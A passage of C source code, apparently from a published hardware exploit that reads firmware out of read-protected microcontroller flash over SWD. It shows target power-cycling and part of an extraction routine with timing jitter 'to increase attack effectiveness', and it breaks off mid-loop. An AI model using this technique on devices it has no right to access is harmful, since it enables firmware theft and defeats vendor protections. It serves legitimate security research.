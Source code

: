 ```c
void targetPowerOff(void) {
    digitalWrite(TARGET_PWR_Pin, LOW);
}

void targetPowerOn(void) {
    digitalWrite(TARGET_PWR_Pin, HIGH);
}
```

### reader.c

```c
/*
 * Copyright (C) 2017 Obermaier Johannes
 * Copyright (C) 2022 Lucas Teske
 *
 * This Source Code Form is subject to the terms of the MIT License.
 * If a copy of the MIT License was not distributed with this file,
 * you can obtain one at https://opensource.org/licenses/MIT
 */

#include "main.h"
#include "swd.h"

/* Reads one 32-bit word from read-protection Flash memory. Address must be 32-bit aligned */
swdStatus_t extractFlashData(uint32_t const address, uint32_t* const data) {
    swdStatus_t dbgStatus;

    /* Add some jitter on the moment of attack (may increase attack effectiveness) */
    static uint16_t delayJitter = DELAY_JITTER_MS_MIN;

    uint32_t extractedData = 0u;
    uint32_t idCode = 0u;

    /* Limit the maximum number of attempts PER WORD */
    uint32_t numReadAttempts = 0u;

    /* try up to MAX_READ_TRIES times until we have the data */
    do {
        digitalWrite(LED1_Pin, LOW);

        targetPowerOn();

        delay(5);

        dbgStatus = swdInit(&idCode);

        if (dbgStatus == swdStatusOk) {
            dbgStatus = swdEnableDebugIF();
        }

        if (dbgStatus == swdStatusOk) {
            dbgStatus = swdSetAP32BitMode(NULL);
        }

        if (dbgStatus == swdStatusOk) {
            dbgStatus = swdSelectAHBAP();
        }

        if (dbgStatus == swdStatusOk) {
            targetRestore();
            delay(delayJitter);

```